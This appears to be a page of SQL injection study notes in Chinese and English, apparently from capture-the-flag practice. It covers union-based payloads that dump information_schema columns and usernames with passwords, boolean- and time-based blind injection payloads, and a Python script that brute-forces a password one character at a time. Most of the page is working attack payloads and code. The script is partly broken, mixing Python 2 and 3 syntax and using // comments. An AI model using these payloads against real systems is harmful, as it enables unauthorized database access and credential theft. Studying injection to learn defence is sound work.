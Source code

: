 ```sql
// FUCK那邊也可以用hex表示
```
```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// 這邊還是比較喜歡用table_schema,如果懶得決定要鎖定哪張表XD...
```
```sql
// 最終目的
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
// 資料全都擠在一起好麻煩
1' and 1=2 union select 1,group_concat(column_name separator '*') from table_name#    // 每一筆用*隔開
```  
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based  
結果沒顯示在頁面上，也沒有顯示錯誤訊息的場景下.  
**True**: 頁面顯示正常.  
**False**: 頁面顯示異常會空結果.  
**Boolean based**  
```sql
length(str)
substr(str,pos,len)   // start index from 1
mid(str,pos,len)
ascii(str)    // we will get decimal, ord()
if(a,b,c)   // if a is true, return b, otherwise return c
id=1' and ascii(substr((select database()),1,1))>65--+  // 通常ascii介於32~127
// 靈活的使用語法
and (mid((select group_concat(column_name) from information_schema.columns),1,1) like 'd');
```  
boolean based是由**頁面返回成功與否**來判定...  

**Time based**  
```sql
id=1' and if(ascii(substr((select database()),1,1)>115),0,sleep(5))--+  // if 第一個字非s以後的字母 則延遲5秒
```
Blind-based會花非常多時間，所以可以自己寫script來代替手注!  
```python
#!/usr/bin/env python3
import re
import requests
from string import digits, ascii_uppercase, ascii_lowercase

target = url
flag = ''
label = "<grey>hi:</grey> value1<br/>"                  // label為每一次爆破成功的標誌
wordlist = digits + ascii_uppercase + ascii_lowercase         // 透過上面引用，可以將數字，字母一次性加入payload
for i in range(0,100):                                // 確認flag的長度
    d = {"key1":"value1","key2":" and length(password) like "+str(i)}       // 注入payload通常會要求繞過waf(等號替換成like之類的)
    response = requests.post(target,data=d)
    if label in response.text:
        print "Get length of flag is : " + str(i)
        flag_leng = i
        break
    print d
for i in range(1, flag_leng+1):                      // mid, substring等index都從1開始
    for j in range(40,127):                  // dec(ascii) (,),*,+,..0,1,...A,B,....a,b,c,.....{,|,},~,DEL
        d = {"key1":"value1","key2":" and mid(password," + str(i) + ",1) like '" + chr(j) + "'"}
                                                       // chr(97) -> 'a' 
        response = requests.post(target,data=d)
        if label in response.text:
           flag += chr(j)
```